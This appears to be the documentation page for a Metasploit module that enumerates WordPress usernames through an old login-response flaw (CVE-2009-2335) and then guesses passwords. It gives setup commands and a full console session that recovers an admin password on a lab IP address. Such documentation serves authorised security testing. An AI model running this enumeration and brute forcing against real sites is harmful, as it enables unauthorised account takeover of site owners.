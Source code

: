 ## Descriptions

This auxiliary module will brute-force a WordPress installation and first determine valid usernames and then perform a password-guessing attack. WordPress and WordPress MU before 2.8.1 exhibit different behavior for a failed login attempt depending on whether the user account exists, which allows remote attackers to enumerate valid usernames. NOTE: the vendor reportedly disputes the significance of this issue, indicating that the behavior exists for "user convenience." More infomation can be found (here)[https://www.cvedetails.com/cve/cve-2009-2335].

## Verification Steps

1. Do: ```use auxiliary/scanner/http/wordpress_login_enum```
2. Do: ```set URI [URI]```
3. Do: ```set PASS_FILE [password file]```
4. Do: ```set USER_FILE [username list file]```
5. Do: ```set RHOSTS [IP]```
6. Do: ```run```

Configure the module first by pointing it to the path of wp-login.php on the target server. Set the username and password files, set the RHOSTS value, and let it run.

## Scenarios

**Running the scanner**

```
msf > use auxiliary/scanner/http/wordpress_login_enum
msf auxiliary(wordpress_login_enum) > show options

Module options (auxiliary/scanner/http/wordpress_login_enum):

   Name                 Current Setting  Required  Description
   ----                 ---------------  --------  -----------
   BLANK_PASSWORDS      false            no        Try blank passwords for all users
   BRUTEFORCE           true             yes       Perform brute force authentication
   BRUTEFORCE_SPEED     5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS         false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS          false            no        Add all passwords in the current database to the list
   DB_ALL_USERS         false            no        Add all users in the current database to the list
   ENUMERATE_USERNAMES  true             yes       Enumerate usernames
   PASSWORD                              no        A specific password to authenticate with
   PASS_FILE                             no        File containing passwords, one per line
   Proxies                               no        A proxy chain of format type:host:port[,type:host:port][...]
   RANGE_END            10               no        Last user id to enumerate
   RANGE_START          1                no        First user id to enumerate
   RHOSTS                                yes       The target address range or CIDR identifier
   RPORT                80               yes       The target port (TCP)
   SSL                  false            no        Negotiate SSL/TLS for outgoing connections
   STOP_ON_SUCCESS      false            yes       Stop guessing when a credential works for a host
   TARGETURI            /                yes       The base path to the wordpress application
   THREADS              1                yes       The number of concurrent threads
   USERNAME                              no        A specific username to authenticate as
   USERPASS_FILE                         no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS         false            no        Try the username as the password for all users
   USER_FILE                             no        File containing usernames, one per line
   VALIDATE_USERS       true             yes       Validate usernames
   VERBOSE              true             yes       Whether to print output for all attempts
   VHOST                                 no        HTTP server virtual host

msf auxiliary(wordpress_login_enum) > set URI /wordpress/wp-login.php
URI => /wordpress/wp-login.php
msf auxiliary(wordpress_login_enum) > set PASS_FILE /tmp/passes.txt
PASS_FILE => /tmp/passes.txt
msf auxiliary(wordpress_login_enum) > set USER_FILE /tmp/users.txt
USER_FILE => /tmp/users.txt
msf auxiliary(wordpress_login_enum) > set RHOSTS 192.168.1.201
RHOSTS => 192.168.1.201
msf auxiliary(wordpress_login_enum) > run

[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Running User Enumeration
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'administrator'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'administrator'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'admin'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration- Username: 'admin' - is VALID
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'root'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Checking Username:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Invalid Username: 'god'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Enumeration - Found 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Running Bruteforce
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Skipping all but 1 valid user
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:''
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'root'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'admin'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'god'
[-] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Failed to login as 'admin'
[*] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - Trying username:'admin' with password:'s3cr3t'
[+] http://192.168.1.201:80/wordpress/wp-login.php - WordPress Brute Force - SUCCESSFUL login for 'admin' : 's3cr3t'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(wordpress_login_enum) >
```

As you can see in the above output that the module is efficient as it only brute-forces passwords against valid usernames and the scan did indeed turn up a valid set of credentials.
